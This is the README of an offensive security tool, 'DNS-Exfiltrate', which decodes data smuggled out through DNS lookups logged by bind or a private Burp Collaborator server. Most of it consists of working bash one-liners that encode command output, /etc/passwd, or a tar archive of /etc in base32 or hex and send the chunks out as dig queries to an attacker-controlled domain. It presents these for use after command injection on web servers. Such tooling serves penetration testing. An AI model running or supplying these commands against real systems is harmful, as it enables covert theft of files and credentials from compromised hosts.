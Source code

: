 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32- or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as hex- or base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar /root/collaborator/burpsuite_pro.jar --collaborator-server | tee /root/collaborator/collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`) or lowercase hex (`0-9`, `a-f`), which which is safe for DNS queries (and can typically be sent via `bash` on Linux/Unix systems using `base32` or `xxd`). base32 is twice as efficient as hex. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<DNS Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`.

### Send STDOUT from a command:

base32:
```
ifconfig | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Hex:
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the output:
```
dns-parse.py <DNS Name> (query.log|collaborator.log)
```

### Exfiltrate a file:

For `xxd` (hex): the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

base32:
```
base32 -w 63 < /etc/passwd | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Hex:
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log)
```

### Exfiltrate a compressed file:

base32:
```
gzip - < /etc/passwd | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Hex:
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/unzip the file:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

base32:
```
tar czf - /etc | base32 -w 63 | tr -d = | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Hex:
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<DNS Name>.<DNS Server>; done;
```

Decode/save the tar archive:
```
dns-parse.py <DNS Name> (query.log|collaborator.log) > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log | base32 -d
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log | base32 -d 
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | base32 -d | zcat
```
